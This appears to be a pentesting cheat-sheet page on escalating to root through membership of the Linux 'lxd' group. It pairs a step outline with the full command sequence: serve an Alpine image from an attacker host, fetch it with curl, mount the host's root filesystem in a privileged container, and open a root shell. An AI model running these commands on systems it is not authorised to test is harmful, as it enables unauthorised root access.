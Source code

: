 # LXD / LXS
If you're a member of `lxd` group, you can elevate to root.

## Table of Contents:
- [Explanation](#user-content-explanation)
- [The process outline](#user-content-the-process)
- [The commands](#user-content-the-commands)
- [Automating the process](#automating-the-process)

## Explanation:
From what I understand...
- LXC (**L**inu**x** **C**ontainer): This is kinda like a virtualised linux environment that can run virtualised systems inside it.
- LXD (**L**inu**x** **D**aemon):

  > LXD is building on top of a container technology called LXC which was used by Docker before. It uses the stable LXC API to do all the container management behind the scene, adding the REST API on top and providing a much simpler, more consistent user experience.
  
  *from [HackingArticles](http://www.hackingarticles.in)*

## Getting PrivEsc:
### The process:
Basically, **if you're a member of `lxd` group, you can get a priv-esc**. A rough-outline of the process is:

  1. On your local machine, download the 'lxd-alpine-builder', and run the 'build-alpine' script inside the folder.
  2. Serve the created .tar.gz file over a HTTP server to your target
  3. On target machine, download this from your server, store it anywhere.
  4. Then, import this file into lxc, and check if it got placed correctly.
  5. Then, initialise lxd there (go with the defaults), followed by initialising lxc with the image you just imported.
  6. Mount the actual target machine's disk inside this image
  7. Start the virtualised system
  8. Open a shell into it
  9. You'll be seeing yourself as root in this virtual device, which is actually just mirroring the actual target machine's / folder.
### The commands:
**1. On local machine:**
```
git clone  https://github.com/saghul/lxd-alpine-builder.git # Get the alpine builder
cd lxd-alpine-builder # Go to the downloaded folder
./build-alpine # Build the required .tar.gz file
python -m SimpleHTTPServer 4444 #Serve this over to the target machine
```
**2. On target machine:**
```
# On target machine
cd /tmp # Directory where you've have RWX
curl -O http://your-host:4444/the-file.tar.gz # Downloading the archive on target machine
lxc image import ./the-file.tar.gz --alias myimage # Adding the env
lxc image list # Check if the env got added
lxd init # Intialising the daemon
lxc init myimage default -c security.privileged=true # Making the container
lxc config device add default mydevice disk source=/ path=/mnt/root recursive=true # Adding the device in to the container
lxc start default # Starting the virtual device
lxc exec default /bin/sh # You get a root shell
id # Check that you're root
```

## Automating the process

Use this script:
[https://www.exploit-db.com/exploits/46978](https://www.exploit-db.com/exploits/46978)
Modify the script as per your requirements

